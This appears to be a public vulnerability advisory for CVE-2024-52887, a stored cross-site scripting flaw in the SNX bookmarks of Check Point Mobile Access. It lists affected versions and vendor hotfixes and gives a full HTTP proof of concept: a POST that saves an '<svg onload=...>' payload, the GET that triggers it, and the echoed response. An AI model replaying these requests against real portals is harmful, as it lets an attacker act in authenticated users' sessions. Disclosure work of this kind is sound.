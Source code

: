 # CVE-2024-52887
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal SNX bookmarks. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

Payload can be saved using following request:
```
POST /sslvpn/Portal/SaveSNXFavorite HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 205
Origin: [REDACTED]
Connection: keep-alive

Title=%3Csvg+onload%3Dalert(document.domain)%3E&Path=%3Csvg+onload%3Dalert(document.domain)%3E&Params=%3Csvg+onload%3Dalert(document.domain)%3E&Tooltip=%3Csvg+onload%3Dalert(document.domain)%3E&Id=93981731
```

After that, payload can be loaded using following request:
```
GET /sslvpn/SNX/GetSnxBookmarks HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This results in XSS:
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2024 09:06:40 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: no-store
Vary: User-Agent
Content-Length: 2623
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"returnCode":0,"SnxAppsArray":[{"type":0,"embeddedAppType":"","url":"","title":"<svg onload=alert(document.domain)>","tooltip":"<svg onload=alert(document.domain)>","path":"<svg onload=alert(document.domain)>","params":"<svg onload=alert(document.domain)>",

[...]
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183054.

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52887
* https://www.cve.org/CVERecord?id=CVE-2024-52887
